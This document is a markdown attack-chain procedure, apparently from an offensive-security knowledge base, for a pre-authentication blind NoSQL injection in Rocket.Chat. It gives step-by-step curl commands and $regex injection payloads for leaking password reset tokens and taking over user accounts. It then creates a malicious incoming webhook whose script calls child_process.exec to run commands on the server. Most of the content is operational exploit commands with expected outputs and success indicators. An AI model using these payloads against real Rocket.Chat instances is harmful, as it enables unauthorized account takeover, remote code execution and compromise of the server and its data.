

# Pre-Auth Blind NoSQL Injection Leading to Account Takeover and RCE in Rocket.Chat

Multi-stage attack chain demonstrating a complete attack workflow exploiting a pre-authentication blind NoSQL injection in Rocket.Chat's getPasswordPolicy method via the 'token' parameter. This allows leaking password reset tokens character-by-character using MongoDB $regex operators, leading to account takeover for any user with a known email (no 2FA required), and ultimately remote code execution through admin-created incoming webhooks that run scripts in the server process context.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 5 |
| Execution Time | ~15-30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Python3]]
- [[tools/requests]]
- [[tools/git]]
- [[tools/docker-compose]]
- [[tools/pre-auth-nosqli-py]]

### Target Environment

- Rocket.Chat version 3.12.1 or vulnerable equivalents
- MongoDB backend
- Exposed on port 3000 (default)
- Docker for local testing

### Initial Access Requirements

- Knowledge of target user's email address
- No authentication required (pre-auth endpoint)
- Target user must lack TOTP 2FA
- Network access to the Rocket.Chat instance

## Detailed Attack Procedures

### Step 1: Request Password Reset for Target User
procedure: [[procedures/Request-Password-Reset-for-Target-User]]

**Objective**: Initiate a password reset to generate a reset token stored in the database, setting up for the injection attack.

**Instructions**: Use the Python requests library to send a POST request to the password reset endpoint with the target's email.

```bash
# Example using curl for manual request (or integrate into Python script)
curl -X POST 'http://target:3000/api/v1/users.forgotPassword' -H 'Content-Type: application/json' -d '{"user":{"email":"target@example.com"}}'
```

**Expected Output**: JSON response confirming email sent, with a generated reset token now queryable in MongoDB.

**Success Indicators**:
- HTTP 200 response with success message
- No errors in response

### Step 2: Leak Password Reset Token via Blind NoSQL Injection
procedure: [[procedures/Leak-Password-Reset-Token-via-Blind-NoSQL-Injection]]

**Objective**: Exploit the unsanitized 'token' parameter in getPasswordPolicy to inject MongoDB $regex operators and reconstruct the token character-by-character through blind boolean responses.

**Instructions**: Use [[commands/run-pre-auth-nosqli-exploit]] with the target URL and email. The script sends payloads like {"msg":"getPasswordPolicy","params":[{"token":{"$regex":"^A"}}]} via /api/v1/method.callAnon, checking for policy return (true) vs. error (false) to guess each character position.

```bash
python3 pre_auth_nosqli.py 'http://target:3000' 'target@example.com'
```

**Expected Output**: Script outputs the full leaked token, e.g., "abc123def456", after iterating through positions and alphanumeric characters.

**Success Indicators**:
- Successful responses return password policy JSON
- Error responses (401/500) indicate mismatch
- Full token reconstructed

### Step 3: Reset Target User Password Using Leaked Token
procedure: [[procedures/Reset-Target-User-Password-Using-Leaked-Token]]

**Objective**: Use the leaked token to submit a new password, achieving account takeover without 2FA interference.

**Instructions**: Integrate into the exploit script or manually POST the token and new password to the reset endpoint.

```bash
curl -X POST 'http://target:3000/api/v1/users.resetPassword' -H 'Content-Type: application/json' -d '{"token":"leaked_token_here","user":{"password":"new_attacker_password"}}'
```

**Expected Output**: HTTP 200 with success message, account now controlled by attacker.

**Success Indicators**:
- Login successful with new password
- No 2FA prompt

### Step 4: Create Malicious Incoming Webhook for RCE After Takeover
procedure: [[procedures/Create-Malicious-Incoming-Webhook-for-RCE-After-Takeover]]

**Objective**: If target is admin, leverage privileges to create an incoming webhook that executes arbitrary scripts server-side without sandboxing, enabling RCE.

**Instructions**: After login as admin, use the API to create a webhook with a payload like {"script":"require('child_process').exec('whoami')"}.

```bash
# Via API after auth
curl -X POST 'http://target:3000/api/v1/integrations.create' -H 'X-Auth-Token: admin_token' -H 'X-User-Id: admin_id' -H 'Content-Type: application/json' -d '{"type":"Incoming","name":"Malicious Webhook","channel":"#general","script":"require(\"child_process\").exec(\"id > /tmp/pwned.txt\")"}'
```

**Expected Output**: Webhook created with ID, ready for triggering.

**Success Indicators**:
- Webhook response with enabled status
- File written or command executed on trigger

### Step 5: Execute Commands via Webhook Shell
procedure: [[procedures/Execute-Commands-via-Webhook-Shell]]

**Objective**: Trigger the webhook to run commands as the 'rocketchat' user, gaining shell access for full compromise.

**Instructions**: POST to the webhook URL with a script payload executing desired commands, e.g., [[commands/whoami-verification]] or [[commands/id-verification]].

```bash
curl -X POST 'http://target:3000/hooks/malicious_webhook_id' -H 'Content-Type: application/json' -d '{"text":"Run: require(\"child_process\").exec(\"whoami\")"}'
```

**Expected Output**: Command output in webhook response or logged on server, e.g., "rocketchat".

**Success Indicators**:
- Command output received
- Server files modified (e.g., /tmp/pwned.txt)

## Attack Chain Summary

### Key Achievements

1. Pre-auth token leak via blind NoSQL injection
2. Unauthorized account takeover for any non-2FA user
3. Remote code execution as server process user
4. Full instance, database, and connected systems compromise

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Credentials In Files]]
- [[Valid Accounts]]
- [[Command-Line Interface]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Credential Access]]
- [[Execution]]

---

*Last updated: 2023-10-01T00:00:00Z*
